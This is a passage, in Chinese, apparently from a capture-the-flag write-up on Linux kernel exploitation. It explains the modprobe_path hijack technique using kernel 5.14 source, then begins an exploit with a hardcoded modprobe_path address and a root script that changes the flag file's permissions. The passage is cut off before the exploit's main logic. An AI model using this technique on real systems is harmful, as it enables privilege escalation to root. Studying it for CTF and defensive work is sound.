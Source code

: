 其中 `call_modprobe()` 定義於 `kernel/kmod.c`，我們主要關注這部分代碼（以下來着內核源碼5.14）：

```c
static int call_modprobe(char *module_name, int wait)
{
	//...
	argv[0] = modprobe_path;
	argv[1] = "-q";
	argv[2] = "--";
	argv[3] = module_name;	/* check free_modprobe_argv() */
	argv[4] = NULL;

	info = call_usermodehelper_setup(modprobe_path, argv, envp, GFP_KERNEL,
					 NULL, free_modprobe_argv, NULL);
	if (!info)
		goto free_module_name;

	return call_usermodehelper_exec(info, wait | UMH_KILLABLE);
	//...
```

在這裏調用了函數 `call_usermodehelper_exec()` 將 `modprobe_path` 作爲可執行文件路徑以 root 權限將其執行，這個地址上默認存儲的值爲`/sbin/modprobe`。

我們不難想到的是：若是我們能夠劫持 modprobe\_path，將其改寫爲我們指定的惡意腳本的路徑，隨後我們再執行一個非法文件，**內核將會以 root 權限執行我們的惡意腳本**。

### EXPLOIT

最後的 exp 如下：

```c
#define _GNU_SOURCE
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <unistd.h>
#include <sched.h>

#define MODPROBE_PATH 0xffffffff82444700

struct Data
{
    size_t *ptr;
    unsigned int offset;
    unsigned int length;
};

#define ROOT_SCRIPT_PATH  "/home/getshell"
char root_cmd[] = "#!/bin/sh\nchmod 777 /flag";

/* bind the process to specific core */
void bindCore(int core)
{
    cpu_set_t cpu_set;

    CPU_ZERO(&cpu_set);
    CPU_SET(core, &cpu_set);
    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);

    printf("\033[34m\033[1m[*] Process binded to core \033[0m%d\n", core);
}

void errExit(char *msg)
{
```